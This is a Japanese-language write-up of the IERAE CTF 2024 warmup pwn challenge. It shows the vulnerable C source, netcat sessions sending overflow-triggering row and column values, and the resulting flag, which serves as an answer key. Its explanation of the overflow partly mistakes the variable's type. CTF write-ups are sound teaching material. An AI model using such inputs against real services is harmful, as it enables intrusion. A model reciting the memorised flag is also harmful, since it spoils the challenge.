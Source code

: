 # This is warmup:pwn

Trust me. If this problem is too difficult for you, I don't mind you burying me in the ground!
nc 104.199.135.28 33334

attachment\
[firectf_ierae-ctf-2024-prod-eh2j3_distfiles_this-is-warmup.tar.gz](https://github.com/colza12/ctf_writeup/blob/main/IERAE%20CTF%202024/pwn/This%20is%20warmup/firectf_ierae-ctf-2024-prod-eh2j3_distfiles_this-is-warmup.tar.gz)

Difficulty Level : warmup\
Point : 193\
Solved : 48

# Solution
とりあえず、`nc 104.199.135.28 33334`を実行してみる。
```
$ nc 104.199.135.28 33334
Enter number of rows: 2
Enter number of cols: 2
I made Ichimatsu design for you!
0 1
1 0
```
縦横の数字を入力すると、指定の大きさの市松模様を出力するプログラムとなっているらしい。
配布ファイルに含まれているchal.cを確認する。
```
int main() {
  // If you cause SEGV, then you will get flag
  signal(SIGSEGV, win);
  setbuf(stdout, NULL);
  
  unsigned long long int nrow, ncol;

  printf("Enter number of rows: ");
  scanf("%llu", &nrow);

  printf("Enter number of cols: ");
  scanf("%llu", &ncol);

  if (nrow * ncol < nrow) { // this is integer overflow right?
    puts("Don't hack!");
    exit(1);
  }

  char *matrix = malloc(nrow*ncol);
  if (!matrix) {
    puts("Too large!");
    exit(1);
  }
```
非常に親切に、セグメンテーションフォルトを起こすとフラグが取れることと、整数オーバーフローが起こる場所が記載されている。\
愚直に、大きい値を入力してみるが、フラグは出てこなかった。
```
$ nc 104.199.135.28 33334
Enter number of rows: 2
Enter number of cols: 9999999999999999999999999999999999999999999999999999999999999999
Too large!
```
`ncol`はlong long intと定義されているため、long long intの最大値周辺を攻める方針で、指示通りにオーバーフローさせる。\
long long intの最大値は、9223372036854775807なので、9223372036854775808以上の数字を入力していく。
```
$ nc 104.199.135.28 33334
Enter number of rows: 2
Enter number of cols: 9223372036854775808
Don't hack!

$ nc 104.199.135.28 33334
Enter number of rows: 2
Enter number of cols: 9223372036854775809
Well done!
IERAE{s33?n07_41w4y5_1_cr3a73_d1ff1cu1t_pr0b13m5}
```
さらに大きな数値でも試してみたが、`9223372039999999999`まで大きくなるとプログラムが動かなくなり、さらに大きくすると、`Too large!`と出力されるようになった。\
flagが得られた。

`IERAE{s33?n07_41w4y5_1_cr3a73_d1ff1cu1t_pr0b13m5}`
